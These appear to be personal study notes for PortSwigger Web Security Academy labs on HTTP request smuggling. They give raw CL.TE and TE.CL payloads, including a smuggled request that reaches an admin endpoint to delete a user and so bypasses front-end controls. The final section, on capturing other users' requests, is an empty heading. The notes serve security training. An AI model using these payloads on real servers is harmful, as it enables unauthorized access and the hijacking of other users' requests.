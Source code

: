 ____

# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses


```
POST / HTTP/1.1
Host: 0ad900fc04a5e02480c97b4300e60060.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

![[Pasted image 20240815043936.png]]


# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![[Pasted image 20240815060930.png]]

# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

![[Pasted image 20240815063631.png]]

```
tRANSFER-ENCODING: chunked
Connection: close

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
X-Ignore: X
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Host: localhost

x=
```

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

![[Pasted image 20240815131026.png]]

# Exploiting HTTP request smuggling to reveal front-end request rewriting

The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

![[Pasted image 20240815133129.png]]


![[Pasted image 20240815133321.png]]

# Exploiting HTTP request smuggling to capture other users' requests

